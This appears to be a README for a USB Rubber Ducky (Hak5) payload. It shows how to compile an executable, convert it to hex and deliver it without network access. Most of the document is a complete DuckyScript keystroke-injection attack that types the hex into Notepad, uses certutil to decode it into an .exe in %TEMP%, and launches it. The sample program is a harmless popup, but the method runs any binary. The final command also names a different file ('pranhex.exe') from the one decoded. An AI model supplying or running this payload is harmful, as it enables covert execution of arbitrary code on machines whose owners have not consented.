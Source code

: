 # Example

Executables have been removed for security reasons

## File list

- Python code: `example.py`
- Convert to hex script: `convert_to_hex.py`
- Executable file compiled using pyinstaller: `dist/example.exe`
- Hexadecimal code output: `example.hex`
- File compiled from hex code using certutil: `example.exe`

## Procedure

- This Python code create a Windows popup.

```python
import ctypes

ctypes.windll.user32.MessageBoxW(None, "Hello Hak5!", 'Info', 0x10 | 0x1)
```

- Create the executable

```powershell
pyinstaller --onefile C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/example.py
```

- Create the hex code

```python
import binascii

def convert_to_hex(filename, output_file):
    with open(filename, 'rb') as file:
        binary_data = file.read()

    hex_code = binascii.hexlify(binary_data).decode()

    with open(output_file, 'w') as output:
        output.write(hex_code)

# Esempio di utilizzo
exe_filename = 'C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/dist/example.exe'
output_filename = 'C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/example.hex'
convert_to_hex(exe_filename, output_filename)
```

- Create the DuckyScript payload

```duckyscript
GUI r
DELAY 1000
STRINGLN notepad.exe
DELAY 2000
STRING #HEX_CODE
DELAY 2000
ALT F
DELAY 1000
STRING S
DELAY 1000
STRINGLN "%TEMP%\example.hex"
DELAY 1000
ENTER
DELAY 1000
ALT F4
DELAY 2000
GUI r
DELAY 500
STRINGLN certutil -f -decodeHex "%TEMP%\example.hex" "%TEMP%\example.exe"
DELAY 1000
ENTER
DELAY 1000
GUI r
DELAY 250
STRINGLN "%TEMP%\pranhex.exe"
```
